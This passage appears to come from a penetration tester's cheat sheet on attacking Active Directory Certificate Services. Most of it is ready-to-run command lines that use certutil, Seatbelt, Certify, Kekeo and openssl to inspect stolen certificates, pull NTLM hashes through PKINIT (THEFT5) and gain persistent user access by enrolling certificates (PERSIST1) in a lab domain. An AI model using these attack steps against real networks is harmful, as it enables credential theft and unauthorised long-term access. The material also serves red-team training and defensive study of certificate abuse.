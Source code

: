 Parse `.pfx` with certutil:

```
Cmd > certutil.exe -dump -v cert.pfx
```

Correlate a certificate with a CA thumbprint on the host and in AD:

```
 # Get cert's thumbprint
PS > $CertPath = "C:\Users\snovvcrash\cert.p12"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.Thumbprint
 # Match it with CA certs' thumbprints trusted by the current host
Cmd > .\Seatbelt.exe -q CertificateThumbprints
 # Match it with CA certs' thumbprints from AD
Cmd > .\Certify.exe find /quiet
```




## Steal NTLM via PKINIT (THEFT5)

Request NTLM hash when the account is authenticated with a TGT through PKINIT with Kekeo:

```
Cmd > .\kekeo.exe "tgt::pac /caname:CA01 /domain:megacorp.local /subject:snovvcrash /castore:current_user" "exit"
```




## Persistence via Certificates



### User Persistence (PERSIST1)

Find certificate templates available for enrollment for the current user:

```
Cmd > .\Certify.exe find /clientauth
```

Search for any template that allows domain authentication (a stock published template that allows client authentication is the `User` template).

Request a new certificate for enrolling current user context:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User
```

This will output a certificate and private key in `.pem`. To convert it to `.pfx` compatible with Rubeus do:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
